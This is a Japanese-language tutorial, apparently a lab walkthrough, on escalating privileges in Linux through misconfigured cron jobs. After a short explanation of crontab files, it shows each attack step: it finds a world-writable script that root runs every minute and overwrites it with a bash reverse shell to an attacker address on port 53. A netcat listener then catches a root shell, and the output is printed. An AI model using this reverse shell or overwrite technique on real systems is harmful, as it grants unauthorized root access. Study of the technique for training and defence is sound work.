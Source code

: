 Cronジョブは、ユーザーがスケジュールできるプログラムまたはスクリプトです   
特定の時間または間隔で実行します。   
cron ジョブは、それらを所有するユーザーのセキュリティ レベルで実行されます。   
デフォルトでは、cron ジョブは /bin/sh シェルを使用して、限られた環境変数で実行されます。   
cron テーブル ファイル (crontabs) には、cron ジョブの構成が格納されます。   
ユーザーの crontab は通常、/var/spool/cron/ または /var/spool/cron/crontabs/ にあります。   
システム全体の crontab は /etc/crontab にあります。   
ファイルパーミッション   
cronジョブに関連するファイルパーミッションを誤って設定すると 簡単に権限昇格させることができます。   
もし、cronジョブの一部として実行されるプログラムやスクリプトに書き込むことができれば、自分のコードに置き換えることができます。   
# Privilege Escalation
1. システム全体のcrontabの内容を表示します。
```
$ cat /etc/crontab
...
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```
2. サーバー上の overwrite.sh ファイルを探します。
```$ locate overwrite.sh
/usr/local/bin/overwrite.sh
```
3. ファイルのパーミッションを確認します。
```
$ ls -l /usr/local/bin/overwrite.sh
-rwxr--rw- 1 root staff 40 May 13 2017 /usr/local/bin/overwrite.sh
```
ファイルは誰でも書き込み可能であることに注意してください
4. overwrite.sh ファイルの内容を次のように置き換えます。
```
#!/bin/bash
bash -i >& /dev/tcp/192.168.1.26/53 0>&1
```
5. ローカルマシンでnetcatリスナーを実行し、cronジョブが実行されるのを待ちます。ルートユーザーで実行しているリバースシェルが引っかかるはずです。
```
# nc –nvlp 53
Listening on [any] 53 ...
Connect to [192.168.1.26] from (UNKNOWN) [192.168.1.25] 47352
bash: no job control in this shell
root@debian:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```